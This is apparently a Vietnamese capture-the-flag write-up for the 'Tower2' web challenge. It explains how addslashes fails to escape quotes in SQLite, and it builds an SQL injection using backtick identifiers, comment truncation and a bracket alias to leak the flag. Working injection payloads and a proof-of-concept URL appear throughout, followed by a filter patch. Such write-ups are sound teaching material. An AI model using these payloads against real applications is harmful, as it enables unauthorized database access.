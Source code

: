 # Tower2:
Src unpatched [http://binaries.svattt.org:5000/unpatched/tower2/tower2.py](http://binaries.svattt.org:5000/unpatched/tower2/tower2.py)
```
http://tower2.svattt.org:5002/?source=1
Hint 1: addslashes for sqlite ?
Hint 2: ` 
Hint 3: """ Warning addslashes() should NOT be used to quote your strings for SQLite queries; it will lead to strange results when retrieving your data. """ - said php.net
```
## Exploit

Đây là một bài dạng web sử dụng python kết hợp database sqlite3 .  
Trong đề có sẵn đoạn code với mục đích in ra flag
```python
        for r in result:
            flag = _FLAG_ if 'flag' in r.keys() else ''
            if r[1] == 1:
                conn.close()
                return BODY_HTML.format("""
                    <h3>EHLO {user}!</h3>
                        <!-- DEBUG: {flag} -->
                </div>""".format(user=username,flag=flag))
```
Dựa vào gợi ý 1 và 3, backslash trong sqlite3 không phải là ký tự escape như trong mysql, ... do vậy function addslashes không có tác dụng.  
DEBUG: sử dụng sqlite3 cli trong ubuntu
```
sqlite> select '123\4';
123\4
```
với cấu trúc query như sau:  
"SELECT username,username='{}' AND password='{}' FROM users"  
Sử dụng gợi ý thứ 2, \` được dùng như 1 ký tự để xác định `identifier`, điều này giúp bypass việc lọc ký tự "space" (0x20), sử dụng -- để vô hiệu hóa phần còn lại.

```
username = 123'OR`username`!=
password = from`users`--
```
OR\`username\`!='xxxxx' (`xxxxx` là phần ' AND ...' đã chuyển thành string) nhằm mục đích cho cột 2 (r[1]) trả về giá trị 1  (có sẵn user` guest`)
Kết hợp lại ta có
```
SELECT username,username='123\'OR`username`!=' AND password='from`users`--' FROM users"
```
Để có flag là 1 từ khóa trong r.keys(), thực hiện debug với python-sqlite3 và local database tự tạo; dựa trên kết quả quan sát được, r.keys() là các tên cột trong câu lệnh select; cụ thể là  
"SELECT username,username='{}' AND password='{}' FROM users"  
Câu lệnh trên đưa ra 2 key là `username` và `username='<username>' AND password='<password>'` với username, passsword tùy chọn

Qua quá trình guessing thì với tên cột thứ 3 là username[4] trả về key '4';
-> final payload
```
username = 123'OR`username`!=
password = ,username[flag]from`users`--

SELECT username,username='123\'OR`username`!=' AND password=',username[flag]from`users`--' FROM users"
```
Not working [PoC](http://tower2.svattt.org:5002/login?username=guest%27OR%60username%60!%3D&password=%2Cusername[flag]from%60users%60--) *Patched by N/A ??*

Sau khi tìm hiểu lại thì thực chất`username[flag]` là username với alias flag, và [, `, " là tương đương nhau theo [document](https://www.sqlite.org/lang_keywords.html) của sqlite3.
## Patch:
bổ sung ' ở function filter, do limit 5 chars:
```
+++s = sub(r'[\'|\)|\/|\*]','',s)
---s = sub(r'[\(|\)|\/|\*]','',s)
```